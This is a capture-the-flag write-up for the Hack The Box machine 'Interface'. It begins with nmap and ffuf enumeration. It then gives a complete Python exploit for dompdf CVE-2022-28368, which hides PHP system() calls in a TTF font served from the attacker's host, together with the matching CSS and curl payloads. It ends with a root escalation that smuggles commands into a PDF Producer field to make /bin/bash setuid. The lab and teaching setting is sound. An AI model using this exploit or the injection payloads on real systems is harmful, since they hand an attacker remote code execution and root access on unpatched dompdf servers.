

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.200 interface.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7289a0957eceaea8596b2d2dbc90b55a (RSA)
|   256 01848c66d34ec4b1611f2d4d389c42c3 (ECDSA)
|_  256 cc62905560a658629e6b80105c799b55 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site Maintenance
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* vHost leaked from CSP -> `http://prd.m.rendering-api.interface.htb`
```bash
❯ curl -I interface.htb
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 04 May 2023 11:27:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 6359
Connection: keep-alive
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
```

# Foothold

## API fuzzing

* Found an `/api` endpoint using `ffuf`
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u "http://prd.m.rendering-api.interface.htb/FUZZ" -mc all -ac -v

... [snip] ...

[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 410ms]
| URL | http://prd.m.rendering-api.interface.htb/api
    * FUZZ: api

[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 266ms]
| URL | http://prd.m.rendering-api.interface.htb/vendor
    * FUZZ: vendor
```

* It is all about the fuzzing, after stumbling around, i run `ffuf` again on `/api` endpoint with POST method and find `/api/html2pdf` endpoint.
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u "http://prd.m.rendering-api.interface.htb/api/FUZZ" -mc all -ac -v -t 200 -X POST

... [snip] ...

[Status: 422, Size: 36, Words: 2, Lines: 1, Duration: 324ms]
| URL | http://prd.m.rendering-api.interface.htb/api/html2pdf
    * FUZZ: html2pdf
```

* Another `ffuf` run and got the parameter `html` for the `/api/html2pdf` POST request
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u "http://prd.m.rendering-api.interface.htb/api/html2pdf" -mc all -ac -v -t 200 -X POST -d '{ "FUZZ": "test" }' -H "Content-Type: application/json"

... [snip] ...

[Status: 200, Size: 1131, Words: 116, Lines: 77, Duration: 408ms]
| URL | http://prd.m.rendering-api.interface.htb/api/html2pdf
    * FUZZ: html
```


## dompdf CVE-2022-28368

`/api/html2pdf` is generating pdf using `dompdf 1.2.0 + CPDF`
```bash
❯ curl -sX POST http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html": "<h1>Test<h1>"}' -H "Content-Type: application/json" -o export.pdf
❯ file export.pdf
export.pdf: PDF document, version 1.7, 0 pages
❯ exiftool export.pdf
ExifTool Version Number         : 12.57
File Name                       : export.pdf
Directory                       : .
File Size                       : 1129 bytes
File Modification Date/Time     : 2023:05:04 17:30:17+05:30
File Access Date/Time           : 2023:05:04 17:30:20+05:30
File Inode Change Date/Time     : 2023:05:04 17:30:17+05:30
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:05:04 12:00:14+00:00
Modify Date                     : 2023:05:04 12:00:14+00:00
```

And this is vulnerable for Remote Code Execution via remote font installation

* https://positive.security/blog/dompdf-rce
* https://github.com/dompdf/dompdf/issues/2598
* [CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368)
* Exploit -> https://github.com/positive-security/dompdf-rce

What happening in this exploit is, if attacker take a valid `.ttf` font file, Add append PHP code in it<!--s Copyright section-->, store it as 'exploit_font.php' and include it via an injected CSS file, "dompdf" cached the font file and if attacker accessed that cached cached font file it trigger that PHP code.

* Detailed Explanation in this blog -> https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf

**Exploit**

Generate TTF file with PHP code.
* TTF file from exploit POC -> https://github.com/positive-security/dompdf-rce/raw/main/exploit/exploit_font.php
* Or we can use a valid font file from "[dompdf fonts](https://github.com/dompdf/dompdf/tree/master/lib/fonts)" and append PHP code in the end

Create `exploit.css` file which includes A that exploit font from http server.
* Font file get cached on the server and removed after few minute. So, we need to change the "font-family" name to run it immediately.

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.34:8000/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

Host these files in a HTTP server
```bash
python -m http.server 8000
```

Send payload in `/api/html2pdf` POST request
```bash
curl -isX POST http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html": "<link rel=stylesheet href='http://10.10.14.34:8000/exploit.css'>"}' -H "Content-Type: application/json"
```

Access the cached file -

* The filename of the cached font file is deterministic and can be derived easily. It comprises of the font family, font style and md5 hash of the remote URL.
  * Filename -> `<font_family>+_+<font-style>+_+<md5_hash>+.+<file_extension>`
    * `md5_hash` is determined by the full url for the font file `http://[HOST]:[PORT]/<FILENAME>` -> `echo -n http://[HOST]:[PORT]/<FILENAME> | md5sum`
    * `font_family` name must be in all lowercase.

Running the `feroxbuster` found the dompdf directory location `/vendor/dompdf/dompdf/`
```bash
❯ feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u "http://prd.m.rendering-api.interface.htb/" --force-recursion
```


* I believe that `feroxbuster` would be the ideal tool for fuzzing this box. It offers the added benefits of performing multiple methods simultaneously and supporting recursive searches. Although it may take longer to execute, this approach can provide comprehensive results in a single run. e.g. `feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt  -u "http://prd.m.rendering-api.interface.htb/" --force-recursion -m GET,POST -d 6`

Full url of cached font file -> `http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_7efa892f71f17465286c31241a510a50.php`


**Exploit script**
```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-05-05
Description: dompdf 1.2.0 RCE exploit for HackTheBox machine "interface"
CVE: CVE-2022-28368

Usage: python script.py [COMMAND]
                        - Where COMMAND is a system command to execute

Example: python script.py 'id'

Pre-requirements:
    - vHost is added in the "/etc/hosts" file i.e "10.10.11.200 prd.m.rendering-api.interface.htb"
    - HackTheBox VPN is connected on "tun0" interface
"""

import requests
import netifaces as ni
import random
import string
import hashlib
import threading
import http.server
import socketserver
import sys
import re

session = requests.Session()
rhost = "http://prd.m.rendering-api.interface.htb"

# Enable burp proxy
#session.proxies = {"http": "http://127.0.0.1:8080"}

# Get HackTheBox vpn ip from tun0 interface
try:
    htb_vpn_inf = 'tun0'
    lhost = ni.ifaddresses(htb_vpn_inf)[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

def init_files(ip, php):

    RND_STR = ''.join(random.choices(string.ascii_lowercase, k=10))

    # Raw bytex of https://github.com/positive-security/dompdf-rce/blob/main/exploit/exploit_font.php
    TTF_BYTES = b"\x00\x01\x00\x00\x00\x0a\x00\xef\xbf\xbd\x00\x03\x00\x20\x64\x75\x6d\x31\x00\x00\x00\x00\x00\x00\x00" \
                b"\xef\xbf\xbd\x00\x00\x00\x02\x63\x6d\x61\x70\x00\x0c\x00\x60\x00\x00\x00\xef\xbf\xbd\x00\x00\x00\x2c" \
                b"\x67\x6c\x79\x66\x35\x73\x63\xef\xbf\xbd\x00\x00\x00\xef\xbf\xbd\x00\x00\x00\x14\x68\x65\x61\x64\x07" \
                b"\xef\xbf\xbd\x51\x36\x00\x00\x00\xef\xbf\xbd\x00\x00\x00\x36\x68\x68\x65\x61\x00\xef\xbf\xbd\x03\xef" \
                b"\xbf\xbd\x00\x00\x01\x28\x00\x00\x00\x24\x68\x6d\x74\x78\x04\x44\x00\x0a\x00\x00\x01\x4c\x00\x00\x00" \
                b"\x08\x6c\x6f\x63\x61\x00\x0a\x00\x00\x00\x00\x01\x54\x00\x00\x00\x06\x6d\x61\x78\x70\x00\x04\x00\x03" \
                b"\x00\x00\x01\x5c\x00\x00\x00\x20\x6e\x61\x6d\x65\x00\x44\x10\xef\xbf\xbd\x00\x00\x01\x7c\x00\x00\x00" \
                b"\x38\x64\x75\x6d\x32\x00\x00\x00\x00\x00\x00\x01\xef\xbf\xbd\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00" \
                b"\x00\x01\x00\x03\x00\x01\x00\x00\x00\x0c\x00\x04\x00\x20\x00\x00\x00\x04\x00\x04\x00\x01\x00\x00\x00" \
                b"\x2d\xef\xbf\xbd\xef\xbf\xbd\x00\x00\x00\x2d\xef\xbf\xbd\xef\xbf\xbd\xef\xbf\xbd\xef\xbf\xbd\x00\x01" \
                b"\x00\x00\x00\x00\x00\x01\x00\x0a\x00\x00\x00\x3a\x00\x38\x00\x02\x00\x00\x33\x23\x35\x3a\x30\x38\x00" \
                b"\x01\x00\x00\x00\x01\x00\x00\x17\xef\xbf\xbd\xef\xbf\xbd\x16\x5f\x0f\x3c\xef\xbf\xbd\x00\x0b\x00\x40" \
                b"\x00\x00\x00\x00\xef\xbf\xbd\x15\x38\x06\x00\x00\x00\x00\xef\xbf\xbd\x26\xdb\xbd\x00\x0a\x00\x00\x00" \
                b"\x3a\x00\x38\x00\x00\x00\x06\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x4c\xef\xbf\xbd\xef" \
                b"\xbf\xbd\x00\x12\x04\x00\x00\x0a\x00\x0a\x00\x3a\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
                b"\x00\x00\x00\x00\x02\x04\x00\x00\x00\x00\x44\x00\x0a\x00\x00\x00\x00\x00\x0a\x00\x00\x00\x01\x00\x00" \
                b"\x00\x02\x00\x03\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
                b"\x00\x00\x00\x00\x00\x00\x04\x00\x36\x00\x03\x00\x01\x04\x09\x00\x01\x00\x02\x00\x00\x00\x03\x00\x01" \
                b"\x04\x09\x00\x02\x00\x02\x00\x00\x00\x03\x00\x01\x04\x09\x00\x03\x00\x02\x00\x00\x00\x03\x00\x01\x04" \
                b"\x09\x00\x04\x00\x02\x00\x00\x00\x73\x00\x00\x00\x00\x0a"

    PHP_CODE = php.encode()
    TTF_RAW_DATA = TTF_BYTES + b"<?php %b ?>" % PHP_CODE

    font_filename = 'exploit_font.php'
    with open(font_filename, 'wb') as f:
        f.write(TTF_RAW_DATA)

    FONT_URL = f'http://{ip}:8000/{font_filename}'
    FONT_FAMILY = RND_STR
    FONT_STYLE = 'normal'
    
    CSS_FILE = "@font-face {\n" \
              f"  font-family:'{FONT_FAMILY}';\n" \
              f"  src:url('{FONT_URL}');\n" \
               "  font-weight:'normal';\n" \
              f"  font-style:'{FONT_STYLE}';\n" \
               "}"
    
    css_filename = f'{RND_STR}.css'
    with open(css_filename, 'w') as f:
        f.write(CSS_FILE)

    hash_object = hashlib.md5(FONT_URL.encode())
    MD5_SUM = hash_object.hexdigest()

    cache_filename = FONT_FAMILY + "_" + FONT_STYLE + "_" + MD5_SUM + '.php'

    return cache_filename, css_filename, font_filename

def start_http_server(port):
    try:
        socketserver.TCPServer.allow_reuse_address = True
        Handler = http.server.SimpleHTTPRequestHandler
        httpd = socketserver.TCPServer(("", port), Handler)

        print("[+] Serving at port", port)
        httpd.serve_forever()
    except OSError as e:
        print(e)

def trigger_exploit(remote_host , local_host, server_port, css, cached):
    data = {"html": f"<link rel=stylesheet href='http://{local_host}:{server_port}/{css}'>"}
    session.post(f"{remote_host}/api/html2pdf", json=data)

    cached_url = f"{remote_host}/vendor/dompdf/dompdf/lib/fonts/{cached}"
    print("...", cached_url)
    resp = session.get(cached_url, timeout=10)

    if resp.status_code == 200:
        match = re.search(r"poorduck(.*)", resp.text, re.DOTALL)
        if match:
            print("[+] Output -\n")
            print(match.group(1))

    else:
        exit(f"[!] Something went wrong - {resp.status_code}")


if __name__ == "__main__":

    srv_port = 8000

    exploit_code = "echo 'poorduck'; "
    try:
        exploit_code += f"system('{sys.argv[1]}'); exit;"
    except IndexError as e:
        exit("Usage: script.py [COMMAND]")

    try:
        http_thread = threading.Thread(target=start_http_server, args=(srv_port,))
        http_thread.daemon = True
        http_thread.start()

        cache_fn, css_fn, font_fn =  init_files(ip=lhost, php=exploit_code)
        trigger_exploit(remote_host=rhost, local_host=lhost, server_port=srv_port, css=css_fn, cached=cache_fn)
    except KeyboardInterrupt as e:
        print(e)
    except Exception as e:
        print(e)
    finally:
        import os; [os.remove(f) for f in [css_fn, font_fn] if os.path.isfile(f)]

```




# Privesc

## Shell Arithmetic Expansion Command Injection

Got shell as "www-data", but we can reed user.txt file. That means we don't need to escalate to user "dev".

Linpeas found an interesting `.sh` files in path
```bash
/usr/local/sbin/cleancache.sh
```


That's the script which is cleaning dompdf fonts directory.

And i am guessing that this script is running from root because it is owned by root user and only root can execute it.
```bash
(remote) www-data@interface:/var/www$ ls -l /usr/local/sbin/cleancache.sh
-rwxr-xr-x 1 root root 346 Feb  8 12:57 /usr/local/sbin/cleancache.sh
```

Now, In the script, There is an interesting thing is that, PDF files generated with dompdf are stored in the `/tmp` dir and this script is removing these pdf file from `/tmp` dir by confirming that the pdf is generated with dompdf using `exiftool`.

* First, script extract pdf's metadata "Producer" header value.
* Then, compare it using "dompdf" string.

Here we can inject arbitrary code in the "Producer" header and could get command execution.

It is extracting first word from "Producer" header value, which separated using whitespace.
```bash
(remote) www-data@interface:/tmp$ exiftool -s -s -s -Producer *.pdf 2>/dev/null | cut -d " " -f1
dompdf
(remote) www-data@interface:/tmp$ exiftool -s -s -s -Producer *.pdf 2>/dev/null
dompdf 1.2.0 + CPDF
```

Here, we could use `IFS`,
* In Bash, `IFS` stands for "Internal Field Separator". It is a special shell variable that determines how Bash splits words into fields or tokens when it processes commands.
* By default, the value of IFS is set to whitespace.

```bash
exiftool -Producer='a[$(touch$IFS/tmp/root.test$IFS>&2)]' *.pdf
```
* script is executing in every 5 minutes


It worked, and there is also a blog  which is talking about this bash trick -> https://www.vidarholen.net/contents/blog/?p=716

Get root shell
```bash
exiftool -Producer='a[$(chmod$IFS+s$IFS/bin/bash$IFS>&2)]' *.pdf
```
